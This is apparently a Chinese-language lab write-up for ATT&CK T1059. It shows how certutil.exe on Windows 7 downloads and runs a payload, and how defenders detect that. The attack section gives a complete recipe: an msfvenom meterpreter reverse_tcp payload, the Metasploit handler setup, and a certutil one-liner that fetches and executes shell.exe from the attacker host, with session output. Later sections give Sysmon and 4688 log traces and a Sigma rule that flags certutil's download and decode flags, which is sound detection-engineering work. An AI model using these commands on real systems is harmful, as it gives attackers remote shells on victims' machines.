 # T1059-win-基于白名单Certutil.exe执行Payload

## 来自ATT&CK的描述

暂无合适分类，置放在此TID中

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件，并获取meterpreter会话。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload.exe

通过msfvenom 生成恶意可执行文件，并使用start multi/handler获取目标计算机反向shell会话。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f exe > shell.exe
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234

```

#### 开启小型http服务

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

#### 靶机执行payload

```dos
certutil.exe -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe & shell.exe
```

#### 反弹shell

```bash
[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49172) at 2020-04-17 15:59:50 +0800
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\certutil.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: CertUtil.exe
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CertUtil.exe
CommandLine: certutil.exe  -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID:0xbcc
新进程名: C:\Windows\System32\certutil.exe

#windows server 2008(不含2008)以上系统可以配置审核进程创建策略，达到记录命令行参数的效果。通过命令行参数进行监控分析。
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑的Certutil命令
status: experimental
description: 使用诸如“decode”子命令之类的子命令检测可疑的Microsoft certutil执行，该子命令有时用于使用内置的certutil实用程序
references:
    - https://twitter.com/JohnLaTwC/status/835149808817991680
    - https://twitter.com/subTee/status/888102593838362624
    - https://twitter.com/subTee/status/888071631528235010
    - https://blogs.technet.microsoft.com/pki/2006/11/30/basic-crl-checking-with-certutil/
    - https://www.trustedsec.com/2017/07/new-tool-release-nps_payload/
    - https://twitter.com/egre55/status/1087685529016193025
    - https://lolbas-project.github.io/lolbas/Binaries/Certutil/
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '* -decode *'
            - '* /decode *'
            - '* -decodehex *'
            - '* /decodehex *'
            - '* -urlcache *'
            - '* /urlcache *'
            - '* -verifyctl *'
            - '* /verifyctl *'
            - '* -encode *'
            - '* /encode *'
            - '*certutil* -URL*'
            - '*certutil* /URL*'
            - '*certutil* -ping*'
            - '*certutil* /ping*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
tags:
    - attack.defense_evasion
    - attack.t1140
    - attack.t1105
    - attack.t1059
    - attack.s0189
    - attack.g0007
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high

```

### 建议

根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>
